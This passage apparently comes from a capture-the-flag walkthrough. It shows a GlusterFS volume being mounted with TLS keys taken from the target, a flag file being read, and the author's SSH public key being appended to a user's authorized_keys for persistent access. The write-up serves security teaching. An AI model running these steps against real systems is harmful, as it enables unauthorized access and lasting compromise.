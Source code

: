 
`glusterfs.pem` was one of the files that wasn’t present when trying to mount
`vol1`.

### Mount vol1

I’ll copy `glusterfs.pem` into my local `/etc/ssl` directory, and try the
mount again. It still returns errors, this time looking for `glusterfs.key`:

    
    
    [2022-02-07 11:41:20.584384] E [socket.c:4469:ssl_setup_connection_params] 0-vol1-client-0: could not load private key at /etc/ssl/glusterfs.key
    [2022-02-07 11:41:20.584406] E [socket.c:241:ssl_dump_error_stack] 0-vol1-client-0:   error:02001002:system library:fopen:No such file or directory
    [2022-02-07 11:41:20.584415] E [socket.c:241:ssl_dump_error_stack] 0-vol1-client-0:   error:20074002:BIO routines:file_ctrl:system lib
    [2022-02-07 11:41:20.584423] E [socket.c:241:ssl_dump_error_stack] 0-vol1-client-0:   error:140B0002:SSL routines:SSL_CTX_use_PrivateKey_file:system lib
    

I’ll copy `glusterfs.key` and `glusterfs.ca` into `/etc/ssl`, and it works:

    
    
    root@hacky:/etc/ssl# mount -t glusterfs 10.10.11.131:/vol1 /mnt
    root@hacky:/etc/ssl# ls /mnt
    user.txt
    

I’ll grab `user.txt`:

    
    
    root@hacky:/mnt# cat user.txt
    085ee121************************
    

### SSH

This is actually jennifer’s homedir:

    
    
    root@hacky:/mnt# ls -la
    total 22
    drwxr-x---  5 oxdf oxdf 4096 Oct 25 01:49 .
    drwxr-xr-x 21 root root 4096 Feb  7 06:40 ..
    lrwxrwxrwx  1 oxdf oxdf    9 Oct 28 02:59 .bash_history -> /dev/null
    -rw-r--r--  1 oxdf oxdf  220 Sep 20 08:27 .bash_logout
    -rw-r--r--  1 oxdf oxdf 3526 Sep 20 08:27 .bashrc
    drwx------  3 oxdf oxdf 4096 Oct 25 01:44 .gnupg
    -rw-r--r--  1 oxdf oxdf  807 Sep 20 08:27 .profile
    drwx------  2 oxdf oxdf 4096 Dec  7 14:54 .ssh
    -r--------  1 oxdf oxdf   33 Feb  7  2022 user.txt
    

I’ll write my public key into the `authorized_keys` file:

    
    
    root@hacky:/mnt/.ssh# ls
    authorized_keys
    root@hacky:/mnt/.ssh# echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" >> authorized_keys 
    